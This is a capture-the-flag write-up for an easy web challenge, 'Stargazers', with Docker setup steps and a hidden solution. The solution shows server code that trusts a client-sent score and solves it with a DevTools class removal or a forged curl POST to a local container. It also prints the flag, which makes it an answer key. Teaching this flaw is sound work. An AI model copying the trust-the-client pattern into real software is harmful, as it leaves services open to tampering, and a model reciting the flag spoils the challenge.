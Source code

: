 # Stargazers

#### Category: Web Exploitation

#### Difficulty: Easy

#### Description: Catching stars is incredible.  All you need to do is collect seven of them, and I will give you the reward.

#### Preview:

![image](https://github.com/user-attachments/assets/a59a2bff-7c28-4829-a11f-01bbd2bb1c1b)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:8080`

## Solution
<details>

The web challenge needs the user to gather seven stars in order to earn the flag, which they may achieve by just clicking them.  However, there is a catch: if the score hits 6, the star will avoid the cursor and prevent the user from clicking it.

![image](https://github.com/user-attachments/assets/90a05488-0ca4-499a-bd36-6bb68825f8f4)

### Source Code (JS)

The 'unclickable' class preventing the object from being clicked when the score reaches to 6.

```javascript
if (score === 6) {
    object.classList.add('unclickable');
    object.style.backgroundImage = `url('/static/star.png')`; 
    moveAwayFromCursor(object);
}
```

Server accepts JSON data as score directly from the client side without proper validation.

```javascript
fetch('/victory', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
    body: JSON.stringify({ score: score }),
  })
  .then(response => response.json())
  .then(data => {
      messageBox.textContent = data.message;
    
    if (data.message.includes("ICTF25{")) {
      messageBox.textContent = "Congrats! Here's Your Flag: " + data.message;
  }
})
.catch(error => {
  console.error('Error:', error);
  messageBox.textContent = 'Error submitting score.';
});
```

To solve this challenge, there's two solution:

### Method 1
Removing the 'unclickable' class using DevTools.

`document.querySelector('.unclickable').classList.remove('unclickable');`

### Method 2
Sending the score data as JSON directly to server side.

`curl -X POST http://localhost:5000/victory -H 'Content-Type: application/json' -d '{"score":7}'`

We will obtain the flag by using either of these solutions.

<br>

![image](https://github.com/user-attachments/assets/e95af152-47dd-4947-be97-00dc9d27ac8b)

### Flag
> ICTF25{0e9ce052105ac660739950879a243734615e41baca30fa2892646f3bc9307c8e}

</details>
